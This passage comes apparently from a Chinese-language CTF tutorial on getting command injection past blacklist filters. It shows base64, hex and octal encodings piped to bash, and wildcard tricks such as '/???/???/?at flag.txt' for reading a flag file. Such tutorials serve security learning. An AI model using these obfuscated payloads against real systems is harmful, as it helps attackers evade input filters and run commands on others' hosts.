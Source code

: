 ##### 思路 5：编码绕过

对于黑名单检测我们也可以通过 base64 编码方式进行绕过

```bash
`echo "Y2F0IGZsYWcudHh0"|base64 -d`
echo "Y2F0IGZsYWcudHh0"|base64 -d|bash
```

[![](assets/1708998334-9acbd0aa94958956181d32b6a66595d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224142533-83992ad6-d2dd-1.png)

##### 思路 6：十六进制

对于黑名单检测我们也可以通过十六进制编码方式进行绕过：

```bash
echo 'cat flag.txt' |xxd
echo "0x63617420666c61672e7478740a" | xxd -r -p | bash
```

##### 思路 7：八进制类

对于黑名单检测我们也可以通过八进制编码方式进行绕过：

```bash
echo "cat flag.txt" | od -An -t o1
$(printf "\143\141\164\040\146\154\141\147\056\164\170\164\012")
```

##### 思路 8：通配符类

对于黑名单检测我们也可以通过通配符的方式进行绕过：  
通配符——?：用于匹配单个字符，当我们在命令行中使用？作为通配符时，它代表一个字符的位置，可以匹配任何单个字符 (除了斜杠/)，这对于模糊匹配文件名或路径非常有用

```bash
cat fl?g.txt
cat fla?.txt
```

[![](assets/1708998334-0b8d5f2ca12a5c25cbb02a748d27d41e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224142705-ba51b8ae-d2dd-1.png)

```bash
/???/???/?at flag.txt
/???/?at flag.txt
/???/?[a]''[t] flag.txt
```

[![](assets/1708998334-39c42cf3d17c16d309bec0fc41351a51.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224142720-c3bf4b4a-d2dd-1.png)  
通配符——*：通配符*用于模糊匹配文件名或路径中的任意字符序列 (包括空字符序列)，它可以与命令行命令一起使用以匹配多个文件或路径
